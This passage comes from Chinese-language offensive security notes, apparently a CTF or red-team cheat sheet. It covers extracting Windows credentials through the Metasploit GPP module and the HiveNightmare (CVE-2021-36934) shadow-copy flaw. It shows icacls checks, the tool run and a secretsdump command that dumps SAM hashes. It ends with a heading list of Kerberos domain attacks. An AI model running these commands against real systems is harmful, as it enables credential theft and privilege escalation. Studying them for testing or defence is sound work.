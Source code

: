 #### MSF模块

`MSF` 中内置了 `post/windows/gather/credentials/gpp` 模块，可以自动化搜索位于SYSVOL共享目录的XML，并从中解出密码。

### HiveNightmare (CVE-2021-36934)

[HiveNightmare](F:\ctfTools\HiveNightmare(CVE-2021-36934)-Winodws提权)

由于ACL过于宽松，导致可以从系统卷影副本副本中读取包括 **SAM**、**SYSTEM**、**SECURITY** 在内的多个系统文件。直接获得管理员用户哈希。

适用范围：Windows 10 Version 1809发布以来的所有Windows版本，包括Winodws11。

适用条件：已启用系统保护、系统上存在创建的系统还原点、系统启动本地管理员用户

检测是否有权限

```bash
icacls c:\windows\system32\config\SAM
icacls c:\windows\system32\conifg\SECURITY
icacls c:\windows\system32\conifg\SYSTEM
```

若输出 "BUILTIN\Users:(I)(RX)"，则易受攻击

直接使用工具提取

```bash
HiveNightmare.exe
```

通过`secretsdump`导出SAM文件的用户哈希

```bash
python secretsdump.py -sam SAM -system SYSTEM -security SECURITY local
```

之后要么进行哈希破解或者横向移动

## 域控提权

### Kerberos攻击分类

- **AS_REQ & AS_REP 阶段**
  - **域内用户枚举**
  - **密码喷洒攻击**
  - **AS-REP Roasting攻击**
  - **黄金票据**
- **TGS_REQ & TGS_REP阶段**
  - **Kerberosast 攻击**
  - **白银票据**
  - **委派攻击**
    - **非约束委派**
    - **S4U协议**
      - **约束委派**
      - **基于资源的约束委派**
- **PAC安全问题**
  - **MS14-068**
  - **NoPac （CVE-2021-42278 & CVE-2021-42287）**
